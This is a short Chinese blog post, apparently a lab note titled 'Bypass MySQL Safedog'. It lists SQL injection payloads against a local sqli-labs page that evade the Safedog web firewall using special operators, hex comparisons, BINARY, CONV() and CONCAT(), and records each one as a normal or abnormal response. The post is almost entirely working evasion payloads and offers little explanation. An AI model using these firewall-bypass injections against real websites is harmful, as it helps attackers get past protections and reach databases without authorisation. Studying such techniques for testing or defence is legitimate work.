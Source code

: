 ```yaml
---
title: "Bypass MySQL Safedog"
date: 2019-10-10T21:58:09+08:00
lastmod: 2019-10-10T21:58:09+08:00
draft: false
tags: []
categories: ['bypass']
comment: true
---
```


日狗



# 判断注入

安全狗不让基本运算符后跟数字字符串

特殊运算符绕

```
http://172.16.1.157/sql/Less-1/?id=1'and -1=-1 -- + 正常
http://172.16.1.157/sql/Less-1/?id=1'and -1=-2 -- + 不正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~2 -- +	不正常
```

16进制绕

```
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x0-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x0-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x1-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x0-- +	不正常
```

BINARY绕

```
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 0-- +	不正常
```

conv()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONV(1,11,2)-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and CONV(0,11,2)-- +	不正常
```

concat()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(1)-- +		正常
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(0)-- +		不正常
```

